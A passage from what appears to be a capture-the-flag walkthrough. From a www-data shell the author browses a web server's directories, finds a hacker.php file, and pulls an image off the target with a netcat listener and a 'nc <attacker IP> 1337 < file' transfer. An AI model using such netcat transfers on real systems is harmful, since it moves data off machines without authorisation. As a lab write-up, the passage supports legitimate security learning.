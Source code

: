 ```bash
about.html    contact.php  images      news.html    single-blog.html
blog.html     css          index.html  preview_img  style.css
contact.html  fonts        js          secret       team.html
www-data@ubuntu:/var/www/html$
```

After exploring a little, nothing seems interesting. Let's dig deeper...

```bash
www-data@ubuntu:/var/www/html$ cd ..
cd ..
www-data@ubuntu:/var/www$ ls
ls
files  html
```

Hmmm, additional directory other than html ! Now that's odd a little, let's see what that holds for us.

```bash
www-data@ubuntu:/var/www$ cd files
cd files
www-data@ubuntu:/var/www/files$ ls -lhisa
ls -lhisa
total 28K
 530143 4.0K drwxr-xr-x 3 root root 4.0K Oct  3  2020 .
1050401 4.0K drwxr-xr-x 4 root root 4.0K Oct  3  2020 ..
 530145 4.0K -rw-r--r-- 1 root root  391 Oct  3  2020 account.php
 530146 4.0K -rw-r--r-- 1 root root  453 Oct  3  2020 hacker.php
 530144 4.0K drwxr-xr-x 2 root root 4.0K Oct  3  2020 images
 530147 4.0K -rw-r--r-- 1 root root 1.2K Oct  3  2020 index.php
 530150 4.0K -rw-r--r-- 1 root root  545 Oct  3  2020 style.css
```

`hacker.php` ? that's an attractive filename, after reading its content, it seems like we are close to something biggg.

The content also has some sort of an image, which is located inside `./images` , let's try to get the image.

In my machine, let's setup a listener that will get a file and stores it as 'hackerimg.jpg'

```bash
┌──(yariss㉿Kali-VM)-[~]
└─$ nc -nlvp 1337 > hackerimg.jpg
```

In the victime's machine , we are going to transfer the img using netcat.

```bash
www-data@ubuntu:/var/www/files/images$ ls
ls
002d7e638fb463fb7a266f5ffc7ac47d.gif  hacker-with-laptop_23-2147985341.jpg
www-data@ubuntu:/var/www/files/images$ nc 10.8.104.101 1337 < hacker-with-laptop_23-2147985341.jpg
```

We got it !
